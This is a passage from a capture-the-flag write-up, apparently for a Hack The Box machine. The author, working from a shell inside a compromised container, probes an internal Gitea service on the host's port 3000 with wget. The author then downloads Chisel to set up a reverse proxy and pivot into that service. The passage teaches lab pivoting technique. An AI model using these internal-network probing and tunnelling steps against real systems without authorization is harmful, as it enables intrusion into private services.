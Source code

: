 ```sh
    <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
```

We can see the original site where we uploaded our initial file is on port 80. Now look at port 3000:

```sh
/app # wget 172.17.0.1:3000
Connecting to 172.17.0.1:3000 (172.17.0.1:3000)
saving to 'index.html'
index.html   100% |***********************| 13414  0:00:00 ETA
'index.html' saved

/app # head index.html
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
        <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL29wZW5zb3VyY2UuaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9vcGVuc291cmNlLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vb3BlbnNvdXJjZS5odGI6MzAwMC9hc3NldHMvaW1nL2xvZ28uc3ZnIiwidHlwZSI6ImltYWdlL3N2Zyt4bWwiLCJzaXplcyI6IjUxMng1MTIifV19"/>
        <meta name="theme-color" content="#6cc644">
        <meta name="default-theme" content="auto" />
        <meta name="author" content="Gitea - Git with a cup of tea" />
/app # 
```

And we can see port 3000 gives us access to [Gitea](https://github.com/go-gitea/gitea), which is the default port it uses when installed.

## Chisel

We can't interact with Gitea from this command line so let's use [Chisel](https://github.com/jpillora/chisel) to create a reverse proxy like we did with [Wreath](https://pencer.io/ctf/ctf-thm-wreath/#windows-pc---enumeration) over on [TryHackMe](https://tryhackme.com/room/wreath).

If you need a good primer on Chisel then 0xdf has a good article here [here](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html).

First grab the latest version:

```sh
──(root㉿kali)-[~/htb/opensource]
└─# wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz               
--2022-06-07 22:38:39--  https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3234355 (3.1M) [application/octet-stream]
Saving to: ‘chisel_1.7.7_linux_amd64.gz’
chisel_1.7.7_linux_amd64.gz  100%[============>]   3.08M  16.9MB/s    in 0.2s    
2022-06-07 22:38:40 (16.9 MB/s) - ‘chisel_1.7.7_linux_amd64.gz’ saved [3234355/3234355]
```